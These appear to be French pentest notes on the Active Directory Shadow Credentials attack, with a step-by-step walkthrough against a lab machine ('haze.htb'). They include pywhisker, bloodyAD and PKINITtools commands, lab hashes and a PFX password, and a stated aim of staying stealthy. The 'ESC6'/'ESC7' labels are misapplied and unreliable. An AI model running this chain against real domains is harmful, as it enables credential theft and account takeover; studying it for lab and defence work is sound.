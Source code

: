 # Shadow Credentials

## <mark style="color:red;">Attaque Shadow Credentials (AddKeyCredentialLink)</mark>

***

### <mark style="color:blue;">Description de la faille</mark>

L'attaque **Shadow Credentials** exploite l'attribut **`msDS-KeyCredentialLink`** introduit avec Windows Hello for Business dans Active Directory. Cette technique permet à un attaquant ayant des privilèges d'écriture sur un objet utilisateur d'ajouter des "credentials alternatifs" sous forme de certificats, permettant ensuite l'authentification **PKINIT (Public Key Initial Authentication)** pour obtenir un TGT Kerberos.

***

### <mark style="color:blue;">Mécanisme technique</mark>

#### <mark style="color:green;">L'attribut msDS-KeyCredentialLink</mark>

```
msDS-KeyCredentialLink = Attribut multivalué stockant les clés publiques
                        ↓
        Chaque entrée = KeyCredential contenant :
        - DeviceID (GUID unique)
        - Clé publique (certificat)
        - Métadonnées (création, usage)
```

#### <mark style="color:green;">Processus d'exploitation</mark>

```
1. Attaquant a WriteProperty/GenericWrite sur un utilisateur
2. Génère une paire de clés RSA (privée/publique)
3. Crée un KeyCredential avec la clé publique
4. Injecte dans msDS-KeyCredentialLink de la victime
5. Utilise PKINIT avec la clé privée pour obtenir un TGT
6. Extrait le hash NT via U2U (User-to-User)
```

***

### <mark style="color:blue;">Prérequis pour l'attaque</mark>

#### <mark style="color:green;">Droits nécessaires</mark>

* **WriteProperty** sur l'attribut `msDS-KeyCredentialLink`
* **GenericWrite** ou **GenericAll** sur l'objet utilisateur cible
* **WriteOwner** + **WriteDACL** (pour s'accorder les droits)

#### <mark style="color:green;">Infrastructure requise</mark>

* Active Directory avec niveau fonctionnel ≥ 2016
* Windows Hello for Business activé (pas obligatoire)
* PKI ou certificats auto-signés acceptés

***

### <mark style="color:blue;">Outils d'exploitation</mark>

#### <mark style="color:green;">Pywhisker (Python)</mark>

```bash
# Ajouter un KeyCredential à edward.martin
python3 pywhisker.py -d "haze.htb" \
    -u "Haze-IT-Backup$" \
    -H ":735c02c6b2dc54c3c8c6891f55279ebc" \
    --target "edward.martin" \
    --action "add" \
    --filename test1

# Résultat :
# - Certificat généré : test1.pfx
# - Mot de passe PFX : dxQ9JVHZr4Ic5XQLMwUM
# - DeviceID : e9c8619d-56ca-f459-7b2d-5abe4d379b6f
```

#### <mark style="color:green;">Whisker (C#/.NET)</mark>

```powershell
# Alternative Windows native
.\Whisker.exe add /target:edward.martin /domain:haze.htb /dc:dc01.haze.htb
```

***

## <mark style="color:red;">EXEMPLE</mark>

L’utilisateur `mark.adams`, initialement non privilégié, a escaladé ses privilèges en abusant des ACLs sur un compte gMSA (`Haze-IT-Backup$`), récupéré ses credentials, puis les a utilisés pour :

1. Prendre **possession d’un groupe (`Support_Services`)**
2. S’octroyer les droits **GenericAll** sur ce groupe
3. Abuser du droit sur un **compte utilisateur ciblé (`edward.martin`)**
4. Injecter une **Shadow Credential (ESC6)** via `pyWhisker`
5. Obtenir un **TGT Kerberos via PKINITtools**
6. Extraire le **NT hash** final d’`edward.martin` → full compromise.

***

### <mark style="color:blue;">🎯</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Objectif**</mark>

* Escalader vers un utilisateur avec des privilèges plus élevés (potentiellement DA).
* Rester furtif sans modifier de mot de passe ni déclencher d’alerte.
* Exploiter les **ACL Active Directory** et **Shadow Credentials** (T1556.002).

***

### <mark style="color:blue;">🧱</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Étapes techniques détaillées**</mark>

***

#### <mark style="color:green;">🔐 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Utilisation du gMSA**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`Haze-IT-Backup$`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**(credentials volés)**</mark>

Récupérés précédemment via `gMSADumper.py`.

```bash
Haze-IT-Backup$:::735c02c6b2dc54c3c8c6891f55279ebc
```

***

#### <mark style="color:green;">🏗️ 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Changement de propriétaire d’un groupe (**</mark><mark style="color:green;">**`Support_Services`**</mark><mark style="color:green;">**)**</mark>

```bash
bloodyAD set owner 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Haze-IT-Backup$ devient **owner du groupe**, donc a un droit implicite **Full Control**.

***

#### <mark style="color:green;">🎯 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Ajout du droit**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`GenericAll`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**sur le groupe**</mark>

```bash
bloodyAD add genericAll 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Assure la capacité de modifier les membres du groupe.

***

#### <mark style="color:green;">➕ 4.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Ajout du gMSA comme membre du groupe**</mark>

```bash
bloodyAD add groupMember 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Utilisé comme levier pour légitimer sa position dans le domaine et préparer la suite.

***

#### <mark style="color:green;">🧬 5.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Injection d’un certificat Shadow Credential (ESC6)**</mark> <mark style="color:green;"></mark><mark style="color:green;">sur</mark> <mark style="color:green;"></mark><mark style="color:green;">`edward.martin`</mark>

```bash
pywhisker.py --target "edward.martin" --action "add" --filename test1
```

* Génére un **KeyCredential** (DeviceID) lié au compte cible.
* Modifie l’attribut `msDS-KeyCredentialLink` de l’utilisateur.

***

#### <mark style="color:green;">🪪 6.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Obtenir un TGT via PKINIT avec le certificat injecté**</mark>

```bash
gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass dxQ9JVHZr4Ic5XQLMwUM haze.htb/edward.martin edward.martin.ccache
```

➡️ Obtenu grâce à la clef d’auth injectée.

***

#### <mark style="color:green;">🔓 7.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Extraction du NT hash d’**</mark><mark style="color:green;">**`edward.martin`**</mark>

```bash
export KRB5CCNAME=edward.martin.ccache
getnthash.py -key <AS-REP key> haze.htb/edward.martin
```

✅ Résultat :

```
NT Hash: 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

***

### <mark style="color:blue;">🛠️</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Chaîne d’exploitation ASCII**</mark>

```
[ mark.adams (user) ]
     |
     | → abuse ACL (ESC7)
     v
[ Haze-IT-Backup$ (gMSA) ]
     |
     | → become owner of group
     v
[ Support_Services (group) ]
     |
     | → write msDS-KeyCredentialLink on
     v
[ edward.martin (target user) ]
     |
     | → Shadow Credential injected (ESC6)
     v
[ Kerberos TGT → NT hash extraction ]
     |
     v
[ Full compromise / lateral movement ]
```

***
